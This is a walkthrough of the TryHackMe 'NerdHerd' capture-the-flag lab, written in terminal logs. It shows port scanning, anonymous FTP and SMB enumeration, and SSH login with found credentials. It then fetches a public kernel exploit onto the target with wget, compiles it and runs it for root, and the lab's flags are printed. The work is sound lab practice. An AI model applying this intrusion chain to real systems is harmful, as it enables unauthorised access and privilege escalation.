




## nmap 10.10.229.125 -sV -sC -p- -T4
~~~
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.5.88
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 pub
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2024-01-10T17:49:43+02:00
|_clock-skew: mean: -11h39m51s, deviation: 1h09m15s, median: -10h59m52s
| smb2-time: 
|   date: 2024-01-10T15:49:43
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

~~~
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ ftp 10.10.229.125      
Connected to 10.10.229.125.
220 (vsFTPd 3.0.3)
Name (10.10.229.125:alpha): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42792|)
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 pub
226 Directory send OK.
ftp> ls -al
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||42023|)
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 ..
drwxr-xr-x    2 ftp      ftp          4096 Sep 14  2020 .jokesonyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11  2020 youfoundme.png
226 Directory send OK.
ftp> get youfoundme.png
local: youfoundme.png remote: youfoundme.png
229 Entering Extended Passive Mode (|||46498|)
150 Opening BINARY mode data connection for youfoundme.png (89894 bytes).
100% |****************************************************************************************| 89894       71.68 KiB/s    00:00 ETA
226 Transfer complete.
89894 bytes received in 00:01 (51.58 KiB/s)
ftp> cd .jokesonyou
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||45564|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            28 Sep 14  2020 hellon3rd.txt
226 Directory send OK.
ftp> get hellon3rd.txt
local: hellon3rd.txt remote: hellon3rd.txt
229 Entering Extended Passive Mode (|||49914|)
150 Opening BINARY mode data connection for hellon3rd.txt (28 bytes).
100% |****************************************************************************************|    28        0.26 KiB/s    00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (0.09 KiB/s)
ftp> bye
221 Goodbye.
~~~
Lets enumirate what we get ftp inside
~~~
exiftool youfoundme.png
~~~
whe get this The Vigenere cipher is a method of encrypting alphabetic text by using a series of different Caesar ciphers based on the letters of a keyword. It is a simple form of polyalphabetic substitution.
~~~
Owner Name                      : fijbxslz
~~~


~~~
─$ cat hellon3rd.txt 
all you need is in the leet
~~~
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ dirb http://10.10.229.125:1337/
==> DIRECTORY: http://10.10.229.125:1337/admin/
~~~
easypass


~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ echo "aGVoZWdvdTwdasddHlvdQ==" | base64 -d
hehegou<j�][�base64: invalid input
                                                                                                                                     
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ echo "Y2liYXJ0b3dza2k=" | base64 -d
cibartowski
~~~
hehegou
cibartowski

# SMBclient enumeration 
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ smbclient -L 10.10.229.125
Password for [WORKGROUP\alpha]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        nerdherd_classified Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (nerdherd server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            NERDHERD
~~~
Enum4linux enumeration
~~~
[+] Enumerating users using SID S-1-5-21-2306820301-2176855359-2727674639 and logon username '', password ''                         
                                                                                                                                     
S-1-5-21-2306820301-2176855359-2727674639-501 NERDHERD\nobody (Local User)                                                           
S-1-5-21-2306820301-2176855359-2727674639-513 NERDHERD\None (Domain Group)
S-1-5-21-2306820301-2176855359-2727674639-1000 NERDHERD\chuck (Local User)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                          
                                                                                                                                     
S-1-22-1-1000 Unix User\chuck (Local User)                                                                                           
S-1-22-1-1002 Unix User\ftpuser (Local User)
~~~
i found out "chuck" was one of the username available
~~~                                                                                                                                                                                                                                                                                      
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ smbclient //10.10.229.125/nerdherd_classified -U chuck
Password for [WORKGROUP\chuck]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 10 21:29:53 2020
  ..                                  D        0  Thu Nov  5 15:44:40 2020
  secr3t.txt                          N      125  Thu Sep 10 21:29:53 2020

                8124856 blocks of size 1024. 3413892 blocks available
smb: \> get secr3t.txt 
getting file \secr3t.txt of size 125 as secr3t.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
~~~
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ cat secr3t.txt   
Ssssh! don't tell this anyone because you deserved it this far:

        check out "/this1sn0tadirect0ry"

Sincerely,
        0xpr0N3rd
<3
~~~
i found out there's another that e can try investigate it
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ wget http://10.10.229.125:1337/this1sn0tadirect0ry/creds.txt                                                      
--2024-01-10 21:46:13--  http://10.10.229.125:1337/this1sn0tadirect0ry/creds.txt
Connecting to 10.10.229.125:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 84 [text/plain]
Saving to: ‘creds.txt.1’

creds.txt.1                               100%[====================================================================================>]      84  --.-KB/s    in 0s      

2024-01-10 21:46:13 (7.10 MB/s) - ‘creds.txt.1’ saved [84/84]
~~~
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ cat creds.txt 
alright, enough with the games.

here, take my ssh creds:

        chuck : th1s41ntmypa5s
~~~
We got the chuck's SSH credentials so, let's SSH to the using chuck's credentials
# SSH access via chu credential
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ ssh chuck@10.10.229.125
The authenticity of host '10.10.229.125 (10.10.229.125)' can't be established.
ED25519 key fingerprint is SHA256:4V4PIhnGrI839xlu2pqGA5v5JX8UwkjDWR2IK/ykQeE.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:20: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.229.125' (ED25519) to the list of known hosts.
chuck@10.10.229.125's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

747 packages can be updated.
522 updates are security updates.

Last login: Wed Oct 14 17:03:42 2020 from 22.0.97.11
chuck@nerdherd:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  nerdherd_classified  Pictures  Public  Templates  user.txt  Videos
chuck@nerdherd:~$ cat user.txt 
THM{7fc91d70e22e9b70f98aaf19f9a1c3ca710661be}
chuck@nerdherd:~$
~~~
Let's check the linux Kernel by using ``uname -a``
~~~
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
chuck@nerdherd:~$
~~~


if cound the vulnerability as shown above and let's download the exploit into our machine
~~~
┌──(alpha㉿Sploit)-[~/ctf/NerdHerd_v2]
└─$ python -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.199.36 - - [10/Jan/2024 21:12:44] "GET /45010.c HTTP/1.1" 200 -
10.10.229.125 - - [10/Jan/2024 21:49:58] "GET /45010.c HTTP/1.1" 200 -
~~~
lets transfer the exploit into the target's machine by starting the listener the ``python -m http.server 8001``
~~~
chuck@nerdherd:~$ cd /tmp
chuck@nerdherd:/tmp$ wget http://10.8.5.88:8001/45010.c
--2024-01-10 17:50:06--  http://10.8.5.88:8001/45010.c
Connecting to 10.8.5.88:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13728 (13K) [text/x-csrc]
Saving to: ‘45010.c’

45010.c                           100%[==========================================================>]  13,41K  55,7KB/s    in 0,2s    

2024-01-10 17:50:07 (55,7 KB/s) - ‘45010.c’ saved [13728/13728]
systemd-private-4b4d575591cc41f0b4c856367e9314d4-colord.service-Uq6Hh5
systemd-private-4b4d575591cc41f0b4c856367e9314d4-rtkit-daemon.service-4Ck2UR
systemd-private-4b4d575591cc41f0b4c856367e9314d4-systemd-timesyncd.service-MKWXEx
chuck@nerdherd:/tmp$ gcc 45010.c -o exploit
chuck@nerdherd:/tmp$ ls
45010.c
exploit
~~~
- gcc <45010> -o exploit
- chmod +x exploit 
~~~
chuck@nerdherd:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88001aea9a00
[*] Leaking sock struct from ffff8800076bd280
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88001b337240
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88001b337240
[*] credentials patched, launching shell...
# python -c "import pty;pty.spawn('/bin/bash')"
root@nerdherd:/tmp# ls
45010.c
exploit
systemd-private-4b4d575591cc41f0b4c856367e9314d4-colord.service-Uq6Hh5
systemd-private-4b4d575591cc41f0b4c856367e9314d4-rtkit-daemon.service-4Ck2UR
systemd-private-4b4d575591cc41f0b4c856367e9314d4-systemd-timesyncd.service-MKWXEx
root@nerdherd:/tmp# cd
root@nerdherd:~# ls
Desktop    Downloads         Music                Pictures  Templates  Videos
Documents  examples.desktop  nerdherd_classified  Public    user.txt
root@nerdherd:~# cd /root
root@nerdherd:/root# ls
root.txt
root@nerdherd:/root# cat root.txt 
cmon, wouldnt it be too easy if i place the root flag here?
root@nerdherd:/root# ls
root.txt
~~~
we need to locate the another root txt file and i notice 
~~~
root@nerdherd:/root# locate root.txt
/opt/.root.txt
/root/root.txt
root@nerdherd:/root#
~~~
we need to access the /opt/ directory and ```cat .root.txt```
~~~
root@nerdherd:/root# cat /opt/.root.txt
nOOt nOOt! you've found the real flag, congratz!

THM{5c5b7f0a81ac1c00732803adcee4a473cf1be693}
root@nerdherd:/root#
~~~
For the challanges there still havve a bonus flag that we need to retrive
~~~
root@nerdherd:/opt# find / -name "THM{"
find: ‘/run/user/108/gvfs’: Permission denied

whoami
find: ‘/proc/3687’: No such file or directory
~~~
firstly let use find functions and we got nothing over there
~~~
root@nerdherd:/root# ls -al
total 40
drwx------  5 root root 4096 Kas  5  2020 .
drwxr-xr-x 24 root root 4096 Eyl 11  2020 ..
-rw-r--r--  1 root root 3132 Kas  5  2020 .bash_history
-rw-r--r--  1 root root 3106 Eki 22  2015 .bashrc
drwx------  2 root root 4096 Tem 19  2016 .cache
drwxr-xr-x  2 root root 4096 Eyl 11  2020 .nano
-rw-r--r--  1 root root  148 Ağu 17  2015 .profile
-rw-r--r--  1 root root   62 Eyl 14  2020 root.txt
drwx------  2 root root 4096 Eyl 11  2020 .ssh
-rw-------  1 root root  511 Eyl 11  2020 .viminfo
root@nerdherd:/root#
~~~
on the root there's a .bash_history
~~~
root@nerdherd:/root# cat .bash_history  
THM{a975c295ddeab5b1a5323df92f61c4cc9fc88207}
~~~